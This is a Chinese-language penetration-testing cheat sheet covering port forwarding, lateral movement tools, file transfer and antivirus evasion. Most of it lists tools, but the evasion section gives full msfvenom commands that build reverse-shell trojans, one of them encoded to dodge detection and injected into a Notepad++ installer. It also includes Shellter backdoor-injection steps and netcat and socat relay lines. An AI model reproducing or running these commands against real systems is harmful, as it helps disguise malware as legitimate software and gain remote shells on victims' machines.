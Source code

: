 综合技巧
========================================

端口转发
----------------------------------------
- windows
    - lcx
    - netsh
- linux
    - portmap
    - iptables
- socket代理
    - Win: xsocks
    - Linux: proxychains
- 基于http的转发与socket代理(低权限下的渗透)
    - 端口转发: tunna
    - socks代理: reGeorg
- ssh通道
    - 端口转发
    - socks
- nc
    - 端口扫描
	``nc -z -v -n 172.31.100.7 21-25``
    - 聊天
	``nc -l 1567``
	``nc 172.31.100.7 1567``
    - 文件传输
	``nc -l 1567 < file.txt``
	``nc -n 172.31.100.7 1567 > file.txt``
    - 目录传输
	``tar -cvf – dir_name | nc -l 1567``
	``nc -n 172.31.100.7 1567 | tar -xvf -``
    - 加密传输
	``nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt``
	``mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567``
    - 端口转发
	``nc -l 8000`` 
	``cat /tmp/fifo | nc localhost 8000 | nc -l 9000 > /tmp/fifo`` 
	``nc -n 192.168.1.102 9000`` 
- socat
    - 显示本地文件
	``socat - /etc/sysctl.conf`` 
    - 监听本地端口
	``socat TCP-LISTEN:12345 -`` 
    - UNIX DOMAIN域套接字转成TCP SOCKET
	``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
    - 端口转发
	``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
	``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
	``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
	``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 

内网文件传输
----------------------------------------
- windows下文件传输
    - powershell
    - vbs脚本文件
    - bitsadmin
    - 文件共享
    - 使用telnet接收数据
    - hta
- linux下文件传输
    - python
    - wget
    - tar + ssh
    - 利用dns传输数据
- 文件编译
    - powershell将exe转为txt，再txt转为exe

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

netstat
-----------------------------------------

|netstat|

- Local ：访问端口的方式，0.0.0.0 是对外开放端口，说明80端口外面可以访问；127.0.0.1 说明只能对本机访问，外面访问不了此端口；
- Address：端口
- Foregin Address：对外开放，一般都为0.0.0.0：* 
- Program name：此端口是那个程序在用，程序挂载此端口
- 重点说明 0.0.0.0 是对外开放，通过服务域名、ip可以访问的端口
- 127.0.0.1 只能对本机 localhost访问，也是保护此端口安全性
- ::: 这三个: 的前两个”::“，是“0:0:0:0:0:0:0:0”的缩写，相当于IPv6的“0.0.0.0”，就是本机的所有IPv6地址，第三个:是IP和端口的分隔符

免杀
-----------------------------------------
- MSF制作免杀木马
	- 列出所有可用编码
		``msfvemon -l encoders``
	- 裸奔木马
		``msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1234 -f exe > /root/test.exe``
	- 免杀木马
		``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.2 LPORT=3333 -e x86/shikata_ga_nai -x npp.7.8.6.Installer.exe -i 12 -f exe -o /root/npp1.exe``

	|msfvemon1|

- Shellter动态注入工具
	- 下载地址
		``https://www.shellterproject.com/download/``
	- Choose Operation Mode - Auto/Manual (A/M/H)
		选择模式: 自动模式自动注入后门，M高级模式，H帮助
	- PE Target：
		注入的程序.
	- Enable Stealth Mode?
		是否启用隐身模式
	- Use a listed payload or custom? (L/C/H)
		使用攻击模块列表或者自定义
	- Select payload by index:
		选择payload序号
	- SET LHOST
		设置反弹回来的IP 本机
	- SET LPORT
		设置接收反弹的端口


.. |netstat| image:: ../images/netstat.png
.. |msfvemon1| image:: ../images/msfvenom1.png
